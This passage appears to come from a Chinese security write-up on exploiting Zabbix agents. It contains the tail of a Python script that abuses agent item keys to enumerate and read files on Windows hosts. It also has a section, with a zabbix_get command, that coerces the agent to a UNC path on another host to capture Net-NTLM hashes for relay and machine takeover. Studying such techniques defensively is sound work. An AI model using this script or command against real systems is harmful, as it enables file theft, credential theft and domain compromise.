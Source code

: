 ```
        else:
            break

def GetFiles(ip, dir):
    drive = dir[0:2]
    path = dir[2:]

    where = ""
    while(True):
        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")
        if check_file:
            if "Invalid item key format" in check_file:
                continue
            print(check_file)
            where = where + "AND Name != '" + getpath(check_file) + "'"
        else:
            break

def Readfile(ip, file):
    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")
    print(read)

if __name__ == "__main__":
    if len(sys.argv) == 2:
        GetDisk(sys.argv[1])
    elif sys.argv[2][-1] != "\\":
        Readfile(sys.argv[1], sys.argv[2])
    else:
        GetDirs(sys.argv[1],sys.argv[2])
        GetFiles(sys.argv[1],sys.argv[2])

    print("Request count: " + str(count))
```

### <a class="reference-link" name="5.%20Windows%20UNC%E8%B7%AF%E5%BE%84%E5%88%A9%E7%94%A8"></a>5. Windows UNC路径利用

在Windows Zabbix Agent环境中，可以利用`vfs.file.contents`命令读取UNC路径，窃取Zabbix Agent机器的Net-NTLM hash，从而进一步Net-NTLM relay攻击。

Window Zabbix Agent默认安装成Windows服务，运行在SYSTEM权限下。在工作组环境中，system用户的Net-NTLM hash为空，所以工作组环境无法利用。

在域内环境中，SYSTEM用户即机器用户，如果是Net-NTLM v1的情况下，可以利用Responder工具获取Net-NTLM v1 hash并通过算法缺陷解密拿到NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下Agent机器权限。

也可以配合CVE-2019-1040漏洞，relay到ldap上配置基于资源的约束委派进而拿下Agent机器权限。

```
zabbix_get -s 192.168.30.200 -p 10050 -k "vfs.file.contents[\\\\192.168.30.243\\cc]"
```

[![](https://p3.ssl.qhimg.com/t017806259cafbfd82c.jpg)](https://p3.ssl.qhimg.com/t017806259cafbfd82c.jpg)
